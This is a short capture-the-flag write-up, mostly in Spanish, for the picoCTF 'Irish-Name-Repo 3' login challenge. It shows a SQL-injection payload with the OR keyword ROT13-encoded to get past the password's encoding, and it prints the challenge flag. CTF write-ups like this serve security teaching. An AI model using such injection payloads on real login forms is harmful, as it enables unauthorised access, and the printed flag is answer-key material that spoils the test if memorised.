 # Irish-Name-Repo 3
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!

Hints:
- Seems like the password is encrypted.

## Solución
[CyberChef](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=aG9sYW11bmRv)

Si intentamos entrar con admin, nos dara un error de login porque encripta la contraseña.
Una solución a esto es intentar hacer una inyección, solo que convirtiendo a ROT13 la condicional **OR** para que la base de datos la pueda detectar, al ecriptarla nos dara **BE**, agregandola en el campo de password podemos entrar sin problemas.


``` 
password: admin' BE '1=1
SQL query: SELECT * FROM admin where password = 'nqzva' OR '1=1'
```

Logrando logearnos y obtener la bandera.

```
# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```